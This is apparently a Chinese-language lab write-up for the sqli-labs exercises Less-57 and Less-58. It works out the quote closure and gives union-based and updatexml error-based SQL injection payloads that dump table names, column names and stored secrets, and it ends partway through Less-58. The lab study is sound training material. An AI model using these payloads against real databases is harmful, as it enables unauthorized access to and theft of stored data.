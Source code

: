 ![113](/medias/sqli-labs/113.png)


## Less-57

测试后台闭合方式，双引号类型 测了11次

```sql
?id=0" or 1=1%23
```

![114](/medias/sqli-labs/114.png)

爆表、爆字段

```sql
?id=0" union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),(select group_concat(column_name) from information_schema.columns where table_schema=database())%23
```

![115](/medias/sqli-labs/115.png)

爆数据

```sql
?id=0" union select 1,2,(select group_concat(id,'-----',sessid,'-----',secret_W1BG,'-----',tryy) from RGQEZ8TA8R)%23
```

![116](/medias/sqli-labs/116.png)


## Less-58

测试后台闭合方式

```sql
?id=0' or 1=1%23
```

![117](/medias/sqli-labs/117.png)


联合查询没有回显，但是测试过程有报错，报错注入

爆表、字段

```sql
# 表名 1I2IZXOTD3
?id=0' or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)%23
```

```sql
# 字段名 id,sessid,secret_4FE6,tryy
?id=0' or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database()),0x7e),1)%23
```
